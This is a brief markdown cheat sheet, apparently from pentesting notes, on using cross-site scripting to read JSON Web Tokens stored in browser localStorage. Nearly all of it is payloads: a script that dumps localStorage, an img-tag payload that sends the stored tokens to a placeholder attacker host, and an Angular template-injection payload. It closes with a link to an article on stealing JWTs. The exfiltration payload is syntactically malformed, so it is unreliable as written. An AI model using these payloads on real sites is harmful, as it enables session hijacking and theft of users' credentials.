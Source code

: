 # XSS and JWT

## JWT in localstorage

```text
<script>alert(JSON.stringify(localStorage))</script>
```

#### Stealing the cookie remotely

```text
<img src=’https://Attacker_site/gimme?jwt=’+JSON.stringify(localStorage);’--!>
```

### In Angular

```text
 {{constructor.constructor('alert(JSON.stringify(localStorage))')()}}
```

### Resource

{% embed url="https://medium.com/redteam/stealing-jwts-in-localstorage-via-xss-6048d91378a0" %}





